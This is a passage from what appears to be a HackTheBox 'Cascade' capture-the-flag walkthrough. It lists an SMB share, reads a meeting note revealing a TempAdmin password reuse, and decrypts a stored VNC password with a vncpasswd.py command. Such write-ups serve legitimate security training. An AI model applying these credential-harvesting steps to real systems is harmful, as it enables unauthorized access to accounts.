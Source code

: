 ```bash
./Finance:
ls: reading directory './Finance': Permission denied

./IT:
'Email Archives'   LogonAudit   Logs   Temp

'./IT/Email Archives':
Meeting_Notes_June_2018.html

./IT/LogonAudit:

./IT/Logs:
'Ark AD Recycle Bin'   DCs

'./IT/Logs/Ark AD Recycle Bin':
ArkAdRecycleBin.log

./IT/Logs/DCs:
dcdiag.log

./IT/Temp:
r.thompson  s.smith

./IT/Temp/r.thompson:

./IT/Temp/s.smith:
'VNC Install.reg'

./Production:
ls: reading directory './Production': Permission denied

./Temps:
ls: reading directory './Temps': Permission denied
luc@kali:~/HTB/Cascade/smb/data$ cat IT/Email\ Archives/Meeting_Notes_June_2018.html
...
Username is TempAdmin (password is the same as the normal admin account password).
...
luc@kali:~/HTB/Cascade/smb/data$ cat IT/Temp/s.smith/VNC\ Install.reg
...
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
...
```

We can see some interesting files `./IT/Email Archives/Meeting_Notes_June_2018.html` and `./IT/Temp/s.smith/VNC Install.reg` in this `data` share as `r.thompson`. The emails gives us the username `TempAdmin` and that the password is the same as the normal admin account password. We also get a saved VNC password.

```bash
luc@kali:~/HTB/Cascade$ python2 /opt/vncpasswd.py/vncpasswd.py -H '6bcf2a4b6e5aca0f' -d
Decrypted Bin Pass= 'sT333ve2'
Decrypted Hex Pass= '7354333333766532'```
```

